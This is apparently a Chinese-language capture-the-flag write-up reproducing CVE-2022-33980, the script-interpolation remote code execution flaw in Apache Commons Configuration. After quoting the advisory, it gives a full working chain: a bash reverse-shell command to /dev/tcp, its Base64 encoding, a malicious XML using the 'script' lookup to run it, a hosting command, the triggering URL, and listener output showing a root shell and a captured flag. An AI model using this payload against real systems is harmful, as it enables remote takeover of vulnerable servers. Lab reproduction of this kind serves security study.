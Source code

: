 # CVE-2022-33980

:::info

Tags

- Apache Commons Configuration 远程命令执行漏洞

官方数据库记录

> Apache Commons Configuration 执行变量插值，允许动态评估和扩展属性。
>
> 插值的标准格式是 “$\{prefix:name\}”，其中 “prefix” 用于定位执行插值的 org.apache.commons.configuration2.interpol.Lookup 实例。
>
> 从版本 2.4 开始一直到 2.7，默认 Lookup 实例集包含可能导致任意代码执行或与远程服务器联系的插值器。
>
> 这些查找是：
>
> - “script” - 使用 JVM 脚本执行引擎 (javax.script) 执行表达式
> - “dns” - 解析 dns 记录
> - “url” - 从 url 加载值，包括从远程服务器
>
> 使用插值默认值的应用程序如果使用不受信任的配置值，受影响的版本可能容易受到远程代码执行或无意中与远程服务器的联系。
>
> 建议用户升级到 Apache Commons Configuration 2.8.0，该版本默认禁用有问题的插值器。

:::

参考 [一些 cve 的复现 - 小黑的笔记](https://www.supersmallblack.cn/CVE%E5%A4%8D%E7%8E%B0.html)

原始的恶意指令为

```plaintext
/bin/sh -i >& /dev/tcp/139.*.*.*/9999 0>&1
```

经过 Base64 编码后得到

```plaintext
L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMzkuOS40LjU2Lzk5OTkgMD4mMQ==
```

在 vps 上构造恶意 xml

```xml
<?xml version="1.0" encoding="ISO-8859-1" ?>
<configuration>
        <path>${script:js:java.lang.Runtime.getRuntime().exec("bash -c {echo,L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMzkuOS40LjU2Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}")}</path>
</configuration>
```

启动临时 http 服务器

```plaintext
root@jmt-projekt:~# python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

然后访问服务

```plaintext
http://eci-2ze440yv0x20kqyxglfa.cloudeci1.ichunqiu.com/Url?url=http://139.*.*.*:8080/CVE-2022-33980.xml&data=path
```

即可收到反连的 shell

```bash
root@jmt-projekt:~# pwncat-cs -lp 9999
[17:18:30] Welcome to pwncat 🐈!                                                                                                                                                                 __main__.py:164
[17:21:09] received connection from 39.106.20.178:29507                                                                                                                                               bind.py:84
[17:21:10] 0.0.0.0:9999: upgrading from /bin/dash to /bin/bash                                                                                                                                    manager.py:957
[17:21:11] 39.106.20.178:29507: registered new host w/ db                                                                                                                                         manager.py:957
(local) pwncat$ back
(remote) root@engine-2:/opt/app# cat /flag
flag{296b02e5-4fda-4031-a89f-ce813b77af1b}
```
